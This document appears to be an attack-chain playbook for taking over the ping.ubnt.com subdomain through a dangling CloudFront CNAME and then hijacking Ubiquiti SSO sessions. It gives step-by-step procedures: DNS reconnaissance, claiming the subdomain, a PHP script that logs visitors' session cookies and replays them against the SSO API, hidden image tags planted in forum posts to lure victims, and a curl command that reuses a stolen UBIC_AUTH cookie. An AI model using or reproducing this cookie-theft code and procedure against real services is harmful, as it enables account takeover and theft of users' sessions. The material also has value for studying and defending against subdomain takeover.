

# Subdomain Takeover of ping.ubnt.com Leading to SSO Authentication Bypass

Multi-stage attack chain demonstrating a complete workflow for subdomain takeover via dangling DNS CNAME, leading to session cookie leakage and authentication bypass on Ubiquiti's SSO platform.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/nslookup]]
- [[tools/AWS-Cloudfront]]
- [[tools/PHP]]
- [[tools/cURL]]
- [[tools/Intercepting-Proxy]]
- [[tools/certbot]]

### Target Environment

- Web platform with DNS records pointing to AWS Cloudfront
- Services: AWS Cloudfront, SSO authentication (e.g., sso.ubnt.com)
- Tech stack: PHP for hosting, shared domain cookies
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- AWS account access for creating Cloudfront distributions
- Attacker-controlled server for origin hosting
- Network access to query DNS and access subdomains
- No prior credentials needed; exploits public-facing misconfigurations

## Detailed Attack Procedures

### Step 1: DNS Reconnaissance
procedure: [[procedures/DNS-Lookup-for-Subdomain-Enumeration]]

**Objective**: Identify dangling CNAME records pointing to unclaimed AWS resources to discover takeover opportunities.

**Instructions**: Use [[commands/nslookup-dns-query-for-cname]] to query the target subdomain:

```bash
nslookup ping.ubnt.com 8.8.8.8
```

**Expected Output**: Reveals CNAME chain: ping.ubnt.com -> dl.ubnt.com -> d2cnv2pop2xy4v.cloudfront.net, with associated IP.

**Success Indicators**:
- CNAME points to AWS Cloudfront
- Potential dangling record identified

### Step 2: Verify Takeover
procedure: [[procedures/Verify-Subdomain-Takeover-Vulnerability]]

**Objective**: Confirm the subdomain is unclaimed by checking for error responses from the cloud provider.

**Instructions**: Access the subdomain directly via browser or curl to https://ping.ubnt.com and observe the response.

```bash
curl -I https://ping.ubnt.com
```

**Expected Output**: AWS Cloudfront error page (e.g., XML error indicating hostname not configured).

**Success Indicators**:
- Error page confirms unclaimed status
- No legitimate content served

### Step 3: Perform Takeover
procedure: [[procedures/Create-AWS-Cloudfront-Distribution-for-Takeover]]

**Objective**: Claim control over the subdomain by registering it with a new Cloudfront distribution.

**Instructions**: In the AWS Cloudfront console, create a new distribution, link to an attacker-controlled origin server, and add 'ping.ubnt.com' as a CNAME alias. Use [[tools/certbot]] for SSL verification if needed.

**Expected Output**: Distribution deployed; subdomain now routes to attacker origin.

**Success Indicators**:
- Subdomain resolves to attacker content
- HTTPS traffic controllable

### Step 4: Host Malicious Payload
procedure: [[procedures/Host-Malicious-Content-on-Taken-Over-Subdomain]]

**Objective**: Serve content that captures and exfiltrates session cookies from visiting users.

**Instructions**: Deploy a PHP script (e.g., imagefetch.php) on the origin server to log cookies and proxy requests to the SSO API using [[tools/cURL]].

Example PHP snippet:
```php
<?php
$cookie = $_SERVER['HTTP_COOKIE'];
file_put_contents('cookies.log', $cookie . "\n", FILE_APPEND);
$ch = curl_init('https://sso.ubnt.com/api/sso/v1/user/self');
curl_setopt($ch, CURLOPT_COOKIE, $cookie);
// Execute and log response
?>
```

**Expected Output**: Cookies logged to file; API responses captured.

**Success Indicators**:
- Script accessible at https://ping.ubnt.com/imagefetch.php
- Logs incoming UBIC_AUTH cookies

### Step 5: Induce Cookie Leakage
procedure: [[procedures/Trick-Victims-into-Leaking-Session-Cookies]]

**Objective**: Socially engineer victims to request attacker-controlled resources, leaking shared domain cookies.

**Instructions**: Embed hidden IMG tags in forum posts or emails on community.ubnt.com pointing to https://ping.ubnt.com/imagefetch.php?f=thanks.png. When authenticated users view, browser sends UBIC_AUTH due to domain=.ubnt.com.

**Expected Output**: Victim's browser makes request; cookie transmitted over HTTPS.

**Success Indicators**:
- Request logged in attacker's server
- UBIC_AUTH value captured

### Step 6: Execute Session Hijacking
procedure: [[procedures/Hijack-Sessions-Using-Leaked-Cookies]]

**Objective**: Impersonate victims by using leaked cookies to access SSO-protected services.

**Instructions**: Use [[tools/Intercepting-Proxy]] to capture the cookie, then inject via Set-Cookie in browser or use [[tools/cURL]] for API calls:

```bash
curl -H "Cookie: UBIC_AUTH=leaked_value" https://sso.ubnt.com/api/sso/v1/user/self
```

**Expected Output**: Victim's user data returned; access to account.ubnt.com, store.ubnt.com, etc.

**Success Indicators**:
- Successful API response with victim info
- Persistent browser session established

## Attack Chain Summary

### Key Achievements

1. Discovered and verified dangling CNAME for takeover
2. Gained full traffic control over ping.ubnt.com
3. Leaked high-privilege UBIC_AUTH cookies via CSRF-like requests
4. Achieved account takeover across Ubiquiti ecosystem without direct auth

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[External Remote Services]] External Remote Services (subdomain takeover)
- [[Valid Accounts]] Valid Accounts (auth bypass via cookie)
- [[Steal Web Session Cookie]] Steal Web Session Cookie (session hijacking)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Credential Access]] Credential Access

---

*Last updated: 2023-10-01T00:00:00Z*
